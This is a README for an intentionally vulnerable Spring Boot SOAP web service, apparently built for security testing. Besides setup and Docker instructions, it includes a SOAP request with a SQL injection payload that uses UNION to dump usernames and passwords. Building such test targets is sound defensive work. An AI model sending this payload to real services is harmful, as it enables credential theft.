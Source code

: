 # Spring boot SOAP example 

Simple SOAP API using Spring Boot. Based on this [tutorial](https://howtodoinjava.com/spring/spring-boot/spring-boot-soap-webservice-example/).

Requires:
* Gradle (wrapper in source)

Optional:
* Docker

## Run

```
cd app/
./gradlew run
```

View the WDSL at http://localhost:9000/ws/vulnsoap.wsdl and post requests to http://localhost:9000/ws.

Example of a valid request (with header "Content-Type:text/xml"):
```
<s11:Envelope xmlns:s11='http://schemas.xmlsoap.org/soap/envelope/'>
  <s11:Body>
    <sch:GetCourseDetailsRequest xmlns:sch='http://www.stackhawk.com/vulnsoap'>
        <sch:name>history</sch:name>
    </sch:GetCourseDetailsRequest>
  </s11:Body>
</s11:Envelope>
```

## Vulnerability

Example of a SQL injection request:

```
<s11:Envelope xmlns:s11='http://schemas.xmlsoap.org/soap/envelope/'>
  <s11:Body>
    <sch:GetCourseDetailsRequest xmlns:sch='http://www.stackhawk.com/vulnsoap'>
        <sch:name>history' union select id, username as name, password as description from user --</sch:name>
    </sch:GetCourseDetailsRequest>
  </s11:Body>
</s11:Envelope>
```

### Docker

```

# build image
docker build -t local/vulny-soap .

# run image
docker run --rm --name vuln-soap -ti -p 9000:9000 local/vulny-soap
```